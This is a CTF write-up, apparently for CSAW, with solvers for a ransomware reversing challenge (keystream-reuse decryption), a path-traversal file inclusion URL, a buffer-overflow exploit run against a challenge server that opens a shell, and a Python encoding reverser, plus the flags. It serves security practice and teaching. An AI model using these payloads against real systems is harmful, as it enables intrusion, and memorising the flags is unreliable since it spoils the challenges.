 I really love ransomwaRE challenge, because it was very good practice for my static analysis (and some dynamic analysis) against windows malware. Thanks to everyone belongs to CPAW CTF organizer for hosting this amazing CTF competition.

## rev

### ransomwaRE

This challenge is focusing about ransomware-like program that encrypts PDF file(s) under `%USERPROFILE%\SecretCSAWDocuments` folder using AES128 algorithm (with CTR mode). Distributed executable is just a downloader (and doing some plus alpha stuffs), the essential part of program can be downloaded from [http://rev.chal.csaw.io:8129/5692481aecd40429eecf588d28ce6a31](http://rev.chal.csaw.io:8129/5692481aecd40429eecf588d28ce6a31). Program has a structure that keeps key, nonce, EVP_CIPHER object, and user id (which will be written on `%USERPROFILE%\AppData\Local\Temp`, and displayed when encryption is done), so I have named this `Config` structure. `Config` will be initialized inside `Gin` function, by storing random bytes to each member variables inside. Key, nonce, user id will be hexlified and sent to remote server (well, server only returns 404 so this part seems to be meaningless).

Because its using same keystream for all files, we can attack this cipher by known-plaintext keystream-reuse attack. I am not well-known about crypto stuffs, so please [check this page](https://ctftime.org/writeup/26871) that I have learned about it. This is the solver, which will output `flag.pdf` with the flag.

Solver:

```python
import os
import binascii
from Crypto.Cipher import AES
from Crypto.Util import Counter
from Crypto.Util import strxor

# us-aers-ransomware.pdf
sample_plain = open('us-aers-ransomware.pdf.backup', 'rb').read()
sample_cipher = open('us-aers-ransomware.pdf.cryptastic', 'rb').read()

# flag.pdf
flag_cipher = open('flag.pdf.cryptastic', 'rb').read()
keystream = strxor.strxor(sample_cipher, sample_plain)[:len(flag_cipher)]
flag_plain = open('flag.pdf', 'wb').write(strxor.strxor(flag_cipher, keystream))
```

`flag{w4y_t0_put_th3_RE_1n_W1nd0w5_r4n50mw4RE}`

## misc

### Welcome

C&P from Discord.

Flag: `flag{W3Lcom3_7o_CS4w_D1ScoRD}`

## warm-up

### poem-collection

Easy Web Chall. ([Answer](http://web.chal.csaw.io:5003/poems/?poem=../flag.txt))

Flag: `flag{l0c4l_f1l3_1nclusi0n_f0r_7h3_w1n}`

### Turing

Flag: `flag{scruffy_looking_nerf_herder}`

### Password Checker

Very simple and easy pwn challenge. Just be careful about stack alignment.

Solver:

```python
from pwn import *
from struct import pack

# conn = process('./password_checker')
conn = remote('pwn.chal.csaw.io', 5000)
payload  = b'A' * 72 # 72
payload += pack('<I', 0x401173)
conn.recvuntil(b"Enter the password to get in: \n>")
conn.sendline(payload)
conn.interactive()
```

Output:

```
$ python3 test.py
[+] Opening connection to pwn.chal.csaw.io on port 5000: Done
[*] Switching to interactive mode
This is not the password$ ls
flag.txt
password_checker
$ cat flag.txt
flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}
```

`flag{ch4r1i3_4ppr3ci4t35_y0u_f0r_y0ur_h31p}`

### checker

Reversing Python Script.

Solver:

```python
def up(x):
    x = [f"{ord(x[i]) << 1:08b}" for i in range(len(x))]
    return ''.join(x)

def up_rev(d):
    x = []
    for i in range(0, len(d), 8):
        x.append(chr(int('0b'+d[i:i+8],2) >> 1))
    return ''.join(x)

def down(x):
    x = ''.join(['1' if x[i] == '0' else '0' for i in range(len(x))])
    return x

def right(x,d):
    x = x[d:] + x[0:d]
    return x

def right_rev(x,d):
    x = x[-1*d:] + x[:-1*d]
    return x

def left(x,d):
    x = right(x,len(x)-d)
    return x[::-1]

def left_rev(x,d):
    x = x[::-1]
    return right_rev(x,len(x)-d)

def encode(plain):
    d = 24
    x = up(plain)
    x = right(x,d)
    x = down(x)
    x = left(x,d)
    return x

def decode(encoded):
    d = 24
    x = left_rev(encoded, d)
    x = down(x)
    x = right_rev(x, d)
    plain = up_rev(x)
    return plain

def main():
    encoded = "1010000011111000101010101000001010100100110110001111111010001000100000101000111011000100101111011001100011011000101011001100100010011001110110001001000010001100101111001110010011001100"
    print(decode(encoded))

if __name__ == "__main__":
  main()
```

Output:

```
> python .\checker.py
flag{r3vers!nG_w@rm_Up}
```

`flag{r3vers!nG_w@rm_Up}`
